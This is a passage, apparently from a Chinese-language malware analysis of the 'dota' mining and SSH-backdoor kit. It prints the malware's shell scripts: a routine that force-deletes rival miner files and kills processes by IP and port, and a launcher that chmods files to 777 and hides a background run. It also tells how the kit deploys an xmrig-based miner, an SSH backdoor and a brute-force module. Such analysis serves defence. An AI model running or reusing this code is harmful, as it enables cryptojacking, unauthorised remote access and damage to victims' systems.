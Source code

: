 ```
	rm -rf /tmp/httpd.conf
	rm -rf /tmp/java*
	rm -rf /tmp/kworkerds /bin/kworkerds /bin/config.json /var/tmp/kworkerds /var/tmp/config.json /usr/local/lib/libjdk.so
	rm -rf /tmp/qW3xT.2 /tmp/ddgs.3013 /tmp/ddgs.3012 /tmp/wnTKYg /tmp/2t3ik
	rm -rf /tmp/root.sh /tmp/pools.txt /tmp/libapache /tmp/config.json /tmp/bashf /tmp/bashg /tmp/libapache
	rm -rf /tmp/xm*
	rm -rf /var/tmp/java*
}

# Killing and blocking miners by network related IOC
network(){
	# Kill by known ports/IPs
	netstat -anp | grep 69.28.55.86:443 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep 185.71.65.238 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep 140.82.52.87 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep 119.9.76.107 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :443 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :23 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :443 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :143 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :2222 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :3333 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :3389 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :4444 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :5555 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :6666 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :6665 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :6667 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :7777 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :8444 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :3347 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :14444 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :14433 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep :13531 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
}	

files
processes
network
echo "DONE"
```

**然后判断平台类型，如果是"i686"就执行anacron，anacron是基于xmrig2.14修改的linux平台挖矿木马；如果是x86_64就启动./kswapd0。**

**然后执行dota/.rsync/b/a，b/a最终执行ps，ps是上面讲的ssh后门服务端，方便黑客远程免密ssh登录。**

**接着执行c目录的start，联网下载要爆破的服务器地址，端口，以及一些字典。**
```
#!/bin/sh
pwd > dir.dir
dir=$(cat dir.dir)
cd $dir
chmod 777 *
rm -rf n
echo "1">n

echo "#!/bin/sh
cd $dir
./run &>/dev/null" > aptitude
chmod u+x aptitude
chmod 777 *
./aptitude >> /dev/null &
```